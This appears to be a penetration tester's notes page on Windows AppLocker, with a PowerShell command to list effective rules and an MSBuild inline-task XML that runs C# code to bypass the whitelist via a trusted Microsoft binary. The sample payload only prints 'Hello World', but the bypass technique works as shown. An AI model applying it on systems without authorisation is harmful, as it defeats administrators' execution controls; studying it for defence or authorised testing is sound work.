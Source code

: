 ```yaml
---
tags:
  - AD
---
```

AppLocker is a built-in Windows feature that enables application whitelisting. It controls which applications and scripts can run on a computer by enforcing policies delivered via Group Policy. Rules are defined using file properties such as publisher, name, version, hash, or path and can be configured to either allow or block execution. These rules can be applied to specific users or groups.

**List AppLocker rules**
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

## Bypassing Policy with LOLBAS
They exist in trusted paths (C:\Windows and C:\Program Files) and may also be digitally signed by Microsoft. 
Examples: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
**Example**: msbuild.exe
Build and execute a C# project stored in the target XML file:

<details>
  <summary>helloworld.xml</summary>
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest : Task, ITask
            {
                public override bool Execute()
                {
                    Console.WriteLine("Hello World");
                    return true;
                }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
</details> 

```powershell
msbuild.exe helloworld.xml
```

![](../../assets/Pasted%20image%2020250605222733.png)
